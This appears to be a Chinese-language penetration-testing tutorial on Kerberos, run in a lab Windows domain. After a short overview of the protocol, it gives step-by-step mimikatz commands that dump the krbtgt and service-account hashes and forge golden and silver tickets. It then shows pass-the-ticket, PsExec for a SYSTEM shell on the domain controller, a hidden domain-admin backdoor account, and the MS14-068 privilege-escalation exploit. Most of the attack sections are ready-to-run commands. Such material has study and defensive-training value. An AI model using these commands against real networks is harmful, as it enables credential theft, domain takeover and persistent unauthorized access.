

## 1、Kerberos概述

一种计算机网络认证协议，采用C/S架构，应用对称密钥体制的系统

* KDC（Key Distribute Center）：密钥分发中心，负责存储用户信息，管理发放票据
* Principal：Kerberos中保存的一个账号，格式为：`primary/instance@realm`，例如`root/admin@EXAMPLE.COM`表示用户名/主机名@域名
* keytab：密钥文件
* 票据：KDC颁发的通行证，有黄金票据和白银票据

## 2、认证流程

```
1. 用户先进行身份认证，输入kinit命令和密码，AS认证服务器根据输入的账号和密码到数据库中查询验证，如果匹配，颁发票据TGT（Ticket Granting Ticket）
2. 用户拿到TGT后访问TGS票据授权服务器，然后TGS去数据库中查询服务是否合法，验证通过后，颁发ST（Service Ticket）票证给用户
3. 用户拿到ST票证后才能访问服务
```


## 3、Kerberos协议优缺点

优点：双向认证、高性能

缺点：对称加密采用相同密钥安全性不易保障、密钥管理复杂度随用户数快速增加`n*(n-1)/2个密钥`

## 4、黄金票据和白银票据

1、黄金票据（Golden Ticket）：伪造TGT，域管理员权限，可以获取任意Kerberos的访问权限，同KDC交互，但不同AS交互

```
# 所需条件
1、域名称
2、域的SID值
3、域的KRBTGT账号的HASH（krbtgt用户是域控中用来管理发放票据的用户，拥有了该用户的权限，就可以伪造系统中的任意用户）
4、伪造任意用户名
（获取域的SID和KRBTGT账号的NTLM HASH的前提是需要已经拿到了域的权限）
```

基本信息获取（SID、所处域）

```
whoami /user（获取SID值，去掉最后的-500，其表示为administrator）
net config workstation 查看所处域
```


获取krbtgt用户hash

```
运行mimikatz.exe
privilegeg::debug       #开启特权模式
lsadump::lsa /patch		#获取krbtgt用户hash,域的sid
lsadump::lsa /patch /user:krbtgt
```




制作黄金票据（使用mimkatz）

```
Kerberos::purge
klist purge		这两条命令可以清除机器中的票据，以防干扰

kerberos::golden /user:administrator /domain:cyber.com /sid:S-1-5-21-1923088019-4105411894-1236499359 /krbtgt:d40f0e3b1347e55dbfd6dc58e80a3b6e /ticket:ticket.kirbi

kerberos::golden /user:XXX任意用户名 /domain:域名 /sid:域的sid值 /ticket:XXX.kirbi(生成的票据名称)
```

票据传递

```
kerberos::ptt ticket.kirbi
dir \\dc.cyber.com\c$ 	#这里好像一定要完整的主机名才行
```


```
此时一个通往域内任意服务的后门制作完成
直接使用Windows官方PsExec工具提权
PsExec.exe \\dc.cyber.com -s cmd.exe
也可以在域内创建隐藏账户
net user qwer$ Aa123456 /add /domain
net group "domain admins" qwer$ /domain
```


2、白银票据（Sliver Ticket）：伪造ST，域普通用户权限，只能访问特定服务，不同KDC交互，直接访问Server

```
# 所需条件
1.域名
2.域sid
3.目标服务器名
4.可利用的服务
5.服务账号的NTML HASH 
6.需要伪造的用户名
```

基本信息获取（SID、所处域、服务器名、NTLM HASH）

```
whoami /user 
net config workstation

获取服务账号hash
mimikatz.exe "privilege::debug" "sekurlsa::logonPasswords" > 'xxx.txt'
```


制作白银票据（使用mimikatz）

```
klist purge  清除票据

kerberos::golden /domain:cyber.com /sid:S-1-5-21-1923088019-4105411894-1236499359 /target:dc.cyber.com /service:cifs /rc4:45bdd23a3b9fc1c44a9fbb4081a70b30 /user:aaaa /ptt

kerberos::golden /domain:域名 /sid:域sid /target:目标服务器 /service:目标服务 /rc4:目标服务器的hash /user:xxx用户名 /ptt
```

伪造共享文件夹服务（cifs）权限


攻击成功


可以伪造的服务


## 5、MS14-068漏洞

可将普通用户提权到域管理员权限

```
# 所需条件
获取域用户名，密码，sid
系统不存在补丁KB3011780
```

##### 查看补丁状况

```
systeminfo|find "KB3011780"
```

##### 获取用户名、密码、SID

```
用户名：hack1
密码：Aa123456  #我所创建的用户都是这个密码，实际可用通过mimikatz获取
SID：S-1-5-21-1923088019-4105411894-1236499359-1115
```


#### 攻击

```
`ms14-068.exe -u user@domain -p user_password -s sid -d domain_ip`

ms14-068.exe -u hack1@cyber.com -p Aa123456 -s S-1-5-21-1923088019-4105411894-1236499359-1115 -d 192.168.10.2
```

攻击前拒绝访问，使用MS14-068.exe生成了.ccache文件


使用mimikatz传递票据

```
kerberos::ptc xxx.ccache
```

